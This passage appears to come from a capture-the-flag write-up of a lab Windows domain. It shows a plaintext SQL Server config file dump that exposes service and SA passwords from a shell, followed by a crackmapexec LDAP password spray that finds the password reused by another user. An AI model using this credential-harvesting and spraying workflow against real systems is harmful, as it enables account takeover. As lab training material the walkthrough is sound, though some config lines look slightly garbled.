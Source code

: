 ## Password leak from the DB config

And in the database configuration file we can find the SA password we just used to connect to it but also the password of `sql_svc` which is the user we have this shell as.
```bash
10.10.11.51:57410 >>> [PJSession] 1: type sql-Configuration.INI
[OPTIONS]
ACTION="Install"
QUIET="True"
FEATURES=SQL
INSTANCENAME="SQLEXPRESS"
INSTANCEID="SQLEXPRESS"
RSSVCACCOUNT="NT Service\ReportServer$SQLEXPRESS"
AGTSVCACCOUNT="NT AUTHORITY\NETWORK SERVICE"
AGTSVCSTARTUPTYPE="Manual"
COMMFABRICPORT="0"
COMMFABRICNETWORKLEVEL=""0"
COMMFABRICENCRYPTION="0"
MATRIXCMBRICKCOMMPORT="0"
SQLSVCSTARTUPTYPE="Automatic"
FILESTREAMLEVEL="0"
ENABLERANU="False"
SQLCOLLATION="SQL_Latin1_General_CP1_CI_AS"
SQLSVCACCOUNT="SEQUEL\sql_svc"
SQLSVCPASSWORD="WqSZAF6CysDQbGb3"
SQLSYSADMINACCOUNTS="SEQUEL\Administrator"
SECURITYMODE="SQL"
SAPWD="MSSQLP@ssw0rd!"
ADDCURRENTUSERASSQLADMIN="False"
TCPENABLED="1"
NPENABLED="1"
BROWSERSVCSTARTUPTYPE="Automatic"
IAcceptSQLServerLicenseTerms=True
JokerShell C:\SQL2019\ExpressAdv_ENU>
```
```bash
10.10.11.51:57410 >>> [PJSession] 1: whoami
sequel\sql_svc
```

## Spraying the new password

The password for `sql_svc` is reused by `ryan` 
```bash
cme ldap 10.10.11.51 -u loot/user -p 'WqSZAF6CysDQbGb3' --continue-on-success
```
```
SMB         10.10.11.51     445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.51     445    DC01             [-] sequel.htb\Administrator:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     445    DC01             [-] sequel.htb\Guest:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     445    DC01             [-] sequel.htb\krbtgt:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     445    DC01             [-] sequel.htb\michael:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\ryan:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     389    DC01             [-] sequel.htb\oscar:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     389    DC01             [+] sequel.htb\sql_svc:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     389    DC01             [-] sequel.htb\rose:WqSZAF6CysDQbGb3
LDAP        10.10.11.51     389    DC01             [-] sequel.htb\ca_svc:WqSZAF6CysDQbGb3
```
